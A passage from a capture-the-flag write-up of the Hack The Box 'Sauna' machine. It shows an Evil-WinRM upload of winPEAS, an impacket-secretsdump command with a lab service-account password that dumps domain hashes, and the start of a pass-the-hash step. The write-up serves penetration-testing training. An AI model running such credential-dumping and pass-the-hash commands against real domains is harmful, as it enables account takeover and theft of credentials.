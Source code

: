 ```text
*Evil-WinRM* PS C:\Users\Fsmith\Documents> upload ~/Tools/privesc/winPEASx64.exe
Info: Uploading ~/Tools/privesc/winPEASx64.exe to C:\Users\Fsmith\Documents\winPEASx64.exe
```

![svc_passwd.png](../assets/sauna_assets/svc_passwd.png)

Awesome, lets go back and try Impacket's secretsdump again, but with these credentials instead this time:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-secretsdump 'EGOTISTICAL-BANK.LOCAL/svc_loanmgr:Moneymakestheworldgoround!'@10.10.10.175
```

![secretsdump.png](../assets/sauna_assets/secretsdump.png)

Nice! We should now have the keys to the kingdom here (It's a good feeling to have to zoom way out, just to include all hashes you dumped in a screenshot!). Lets see if we can pass-the-hash with the administrator NTLM hash to logon and collect the last flag:
